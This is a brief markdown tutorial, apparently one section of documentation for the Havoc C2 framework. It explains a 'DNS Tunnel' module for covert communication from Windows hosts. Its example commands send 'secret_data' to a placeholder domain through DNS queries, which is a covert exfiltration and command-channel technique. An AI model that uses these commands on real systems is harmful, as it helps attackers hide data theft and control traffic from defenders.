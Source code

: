 
---

#### **9. DNS Tunnel**

**File**: `DNS_Tunnel.md`

# Establishing a DNS Tunnel for Covert Communication

## Description
This tutorial explains how to use the **DNS Tunnel** module to establish covert communication using DNS queries.

## Requirements
- **Operating System**: Windows.
- **Havoc C2**: The DNS Tunnel module must be loaded.

## Steps
1. **Preparation**:
   - Load the **DNS Tunnel** module in Havoc C2.

2. **Execution**:
   - Use the command `send_dns_query [domain] [data]` to send data through a DNS query.
   - Use the command `receive_dns_response [domain]` to receive data through a DNS response.

3. **Verification**:
   - Verify the data transmission by checking the output.

## Example Commands
```bash
send_dns_query "example.com" "secret_data"
receive_dns_response "example.com"